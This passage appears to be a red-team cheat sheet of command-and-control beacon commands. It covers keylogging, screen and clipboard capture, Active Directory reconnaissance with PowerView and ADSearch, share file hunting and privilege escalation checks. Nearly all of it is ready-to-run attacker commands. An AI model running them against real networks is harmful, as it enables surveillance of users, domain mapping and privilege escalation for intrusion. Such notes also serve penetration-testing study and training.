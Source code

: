 `printscreen`
`screenwatch`
#### Keylogger
`keylogger`
`jobs`
`jobkill 6`
#### Clipboard
`clipboard`
#### User Sessions
`net logons`
## Domain Reconnaissance
`powershell Get-ADComputer -Filter * -Properties IPv4Address | select Name,DNSHostName,IPv4Address`
#### PowerView
`powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1`

Domain
`powerpick Get-Domain`
`powerpick Get-DomainController | select Forest, Name, OSVersion | fl`
`powerpick Get-ForestDomain`
`powerpick Get-DomainTrust`
`powerpick Get-DomainPolicyData | select -expand SystemAccess`

OU
`powerpick Get-DomainUser | select SamAccountName`
`powerpick Get-DomainUser -Identity "[user]" -Properties DisplayName, MemberOf | fl`
`powerpick Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName`
`powerpick Get-DomainOU -Properties Name | sort -Property Name`

Group
`powerpick Get-DomainGroup | select SamAccountName`
`powerpick Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName`
`powerpick Get-DomainGroupMember -Identity "[group]" | select MemberName`

GPO
`powerpick Get-DomainGPO -Properties DisplayName | sort -Property DisplayName`
`powerpick Get-DomainGPOLocalGroup | select GPODisplayName, GroupName`
`powerpick Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName | fl`→ **GPODisplayName** grants users in group **ObjectName** local Administrator on **ComputerName**

Shares
`powerpick Find-DomainShare -CheckShareAccess`
`powerpick Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*`
`powershell Get-Content [share file] | select -first 5`
#### ADSearch

Users
`execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "objectCategory=user" --attributes samaccountname`

Admins
`execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectclass=user)(admincount=1))"`
`execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=*Admins))"`
`execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=group)(cn=[group]))" --attributes cn,member`
## Host Privilege Escalation
`execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath ModifiableServices ModifiableServiceBinaries`
#### Unquoted Service Path
`run wmic service get name,pathname`